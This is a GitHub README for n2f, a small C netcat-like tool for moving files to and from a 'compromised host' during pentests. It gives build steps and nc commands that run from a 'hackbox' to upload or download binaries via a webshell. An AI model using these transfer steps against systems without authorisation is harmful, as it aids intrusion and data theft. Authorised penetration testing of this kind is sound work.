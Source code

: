 # n2f (Network to file, file to network)

Multiplatform micro redirector between file and network for pentesting. 

It can be useful in pentesting tasks when you can execute commands through webshell but you can't upload (or download) binary files. Thanks to its small size, it can be uploaded using a loader and any vulnerability (or micro webshell) that allows command execution.

## Features

* Pentesting backdoor micro netcat for files transfer.
* Compatible Windows, Linux, Solaris, OSX or BSD (any Unix?).
* Small size. 
* Simple, can be extended (E.g. encrypt)
* Designed to be combined with other tools (E.g. rportfw)

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

n2f should compile/run on any Win32 or UNIX/Linux box. You only need a relatively modern C compiler.

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/n2f.git
```

Edit 'n2f.c' and change configuration (optional).

Compile.

```
$ gcc -Wall -O2 n2f.c -o n2f
```

### Usage

```
usage: n2f {i|o} [file [port]]
```

Upload n2f to the compromised host and launch using your webshell or remote vulnerability.

#### Upload

```
$ n2f o bin-file 6666
```

In the hackbox: 

```
$ nc ip-victim 6666 < bin-file
```

#### Download

```
$ n2f i bin-file 6666
```

In the hackbox:

```
$ nc ip-victim 6666 > bin-file 
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

